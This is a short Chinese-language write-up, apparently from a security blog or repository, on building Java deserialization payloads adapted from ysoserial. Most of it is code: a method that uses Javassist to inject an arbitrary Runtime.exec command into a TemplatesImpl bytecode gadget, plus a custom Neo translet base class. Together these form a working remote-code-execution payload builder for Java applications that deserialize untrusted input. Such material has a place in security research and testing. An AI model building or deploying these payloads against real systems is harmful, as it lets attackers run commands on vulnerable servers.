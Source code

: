 可以看到ysoserial的痕迹还是很足的,但是不影响它的可读性和好用性

```java
    public static TemplatesImpl createTemplatesImpl(String command) throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        //修改Neo类，插入command，创建恶意字节码，此处参考ysoserial
        ClassPool pool = ClassPool.getDefault();
        CtClass  clazz = pool.getCtClass(Neo.class.getName());
        String cmd = "java.lang.Runtime.getRuntime().exec(\"" +
                command.replace("\\", "\\\\").replace("\"", "\\\"") +
                "\");";
        clazz.makeClassInitializer().insertAfter(cmd);
        CtClass superC = pool.get(com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet.class.getName());
        clazz.setSuperclass(superC);
        final byte[] classBytes = clazz.toBytecode();

        setFieldValue(templates, "_bytecodes", new byte[][] {classBytes});
        setFieldValue(templates, "_name", "HelloTemplatesImpl");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        return templates;
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
```

这里我把原来ysoserial它修改字节码的基类自己重写了一个Neo类

```java
package com.payload;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.Serializable;

public class Neo extends AbstractTranslet implements Serializable {

    private static final long serialVersionUID = -5971610431559700674L;


    public void transform (DOM document, SerializationHandler[] handlers ) throws TransletException {}


    @Override
    public void transform (DOM document, DTMAxisIterator iterator, SerializationHandler handler ) throws TransletException {}
}
```
